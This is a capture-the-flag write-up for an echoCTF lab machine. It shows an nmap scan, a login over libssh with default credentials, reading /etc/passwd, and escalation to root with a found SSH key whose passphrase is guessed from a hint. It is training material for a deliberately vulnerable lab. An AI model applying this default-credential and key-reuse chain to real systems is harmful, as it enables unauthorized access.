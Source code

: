 ## Flanders writeup 
by **Staff Member ~ 0xRar** \
https://echoctf.red


### Scanning
First thing to do is run nmap and see what kind of services are running on the system

```sh
nmap -T4 -A -Pn -p- 10.0.100.34


Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-10 20:10 EST
Nmap scan report for 10.0.100.34
Host is up (0.12s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
6022/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
| ssh-hostkey: 
|_  2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)
```

The only service that is running is this ssh service which is based on `libssh 0.8.1`.

### Gaining Access
After looking around for `libssh`, I found two different potential ways to try out.
* One was to try for default username and passwords
* The other was to exploit a vulnerability on that particular version of libssh (CVE-2018-10933)

After a quick check to see if there are any default credentials for this service, proved fruitful. I managed to find these https://github.com/simonsj/libssh/blob/master/examples/ssh_server_fork.c#L51-L52

Giving them a try with `ssh -p 6022 myuser@10.0.100.34` and... it worked, i was logged in as the user `ETSCTF`.

The only flag i could grab at this stage was `/etc/passwd` so I did just that and claimed the flag from the file.

### Privilege Escalation
Now we need to escalate our privileges... Lets gather a few extra details about the system and figure out how to escalate into `root`.

1. Checking for local files i found that there is a file at `.ssh/mykey` and by the looks of it, it seems it is an ssh private key
```sh
ETSCTF@flanders:~$ ls .ssh/
mykey  mykey.pub
```

2. Checking for other listening services on the system with `ss -ant` revealed another ssh service running but its listening
```sh
ETSCTF@flanders:/$ ss -ant
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      10           *:6022                     *:*
LISTEN     0      128    127.0.0.1:22                     *:*
```

3. Checking for running processes provided a few more details, such as that there are two ssh servers running on the system. The one we are connected on runs as user `ETSCTF` which explains why we got droped to that user, when we logged in. The other however is running as root.
```sh
ETSCTF@flanders:~$ ps -eafww
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 14:11 pts/0    00:00:00 /bin/bash /entrypoint.sh default
root        20     1  0 14:11 ?        00:00:00 /usr/sbin/sshd
ETSCTF      39    38  0 14:11 ?        00:00:00 /usr/src/build/examples/ssh_server_fork --hostkey=/etc/ssh/Essh_host_rsa_key --ecdsakey=/etc/ssh/Essh_host_ecdsa_key --dsakey=/etc/ssh/Essh_host_dsa_key --rsakey=/etc/ssh/Essh_host_rsa_key -p 6022 0.0.0.0
```

Combining the details from all the previous steps, I tried to connect to the local service with the key I found,
```sh
ssh -p 22 -i ~/.ssh/mykey root@127.0.0.1
```

Unfortunately the key seems to be protected by a passphrase. After a few random attempts i ended up re-reading the target description again, and this time certain things started to sound a bit more revealing: **His favorite catch phrase is `Okily Dokily`**

The first attempt, using `Okily Dokily`, was not successful. Tried again without spaces (`OkilyDokily`) and ... **BOOM!** we have `root` access on flanders.


Now go get your flags and **GOOD LUCK!** :)


If you have any questions, i can be reached at the [echoCTF discord server](https://discord.gg/2SRkBHHGQB)

_Special thanks to Echothrust's `databus (Pantelis Roditis)` for providing these amazing machines \
and for developing the platform._

### Disclaimer
This writeup is just a quick step-by-step of the target solution, the actual machine took a lot more time and research.
